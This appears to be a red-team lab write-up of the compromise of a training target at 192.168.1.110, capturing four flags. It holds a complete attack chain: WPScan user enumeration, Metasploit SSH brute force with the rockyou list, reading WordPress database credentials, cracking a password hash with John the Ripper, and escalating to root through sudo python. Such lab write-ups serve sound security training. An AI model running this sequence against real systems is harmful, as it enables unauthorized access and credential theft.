 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
  - Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

## Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

------
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - User enumeration
  - Brute force attacking a weak password
      
#### Method
  - First we enumerated the user accounts by exploiting the vulnerable WordPress site using WPScan
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)

  - With the user accounts we can use Metasploit's SSH Login Check Scanner module and the rockyou wordlist to brute force the password
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
  - After obtaining the password: `michael` we are able to SSH into `Target 1`
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
  - From here we used the follow command to locate `flag1`
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag2` using the following command
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
![flag2](images/flag2.png)

-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag3` by harvesting the WordPress database login credentials
```
$ cat /var/www/html/wordpress/wp-config.php
```
![wp_config](images/wp_config.png)

  - With these credentials we dumped the entire database using the following command
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
  - After dumping we ran a search for `flag3`
```
$ grep “flag3” dump
```
![flag4](images/flag3z.png)

> Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
  - Logging into the WordPress database we were able to obtain the unsalted hash for the user account `steven`
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
> select * from wp_users;
```
![wp_users](images/wp_users.png)
```
> exit
```
```
$ exit
```
  - With the hash we created a `hash.txt` for use with John the Ripper
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
![john hash](images/john_hash.png)
  - After cracking the password we were able to login as `steven`
```
$ ssh steven@192.168.1.110
```
  - When checking `steven`'s privileges we noticed he has sudo access to `/usr/bin/python`
```
$ sudo -l
```
![steven_sudo](images/sudo.png)
  - With this we were able to escalate to root
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
  - Finally running the following command for `flag4`
```
$ find / -iname "flag4*" 2> /dev/null
```
![find_flag4](images/find_flag4.png)
```
$ cat /root/flag4.txt
```
![flag4](images/flag4.png)

-----


